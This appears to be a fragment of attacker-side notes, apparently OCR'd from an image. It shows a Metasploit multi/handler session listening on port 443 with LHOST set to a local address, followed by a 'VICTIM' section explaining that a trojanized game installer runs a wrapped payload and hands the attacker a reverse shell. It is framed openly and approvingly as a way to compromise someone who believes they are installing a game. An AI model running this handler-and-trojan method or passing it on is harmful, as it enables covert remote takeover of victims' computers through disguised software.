 	Use port 443 best practice
	Set the LHOST to your local machine 10.13.7.111


# Step 2 
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:443

#NOTE: remember once you see [*] Started reverse TCP handler on 0.0.0.0:443
- STOP pressing buttons! Switch Screens or sit on your hands but touch nothing!

[*] Started reverse TCP handler on 0.0.0.0:443


------------------------------------------------------------------------------
VICTIM

The Target is going to run the installer to his new game.
The install may be wonkie but the game should play like normal. Everything should run
normal. SO the exploit occurrs when the target runs the installation! NOT from the download of the file!
SO the INSTALLER is what executes the wrapper and gives the target the software they want
and it gives us the shell WE WANT! :) 































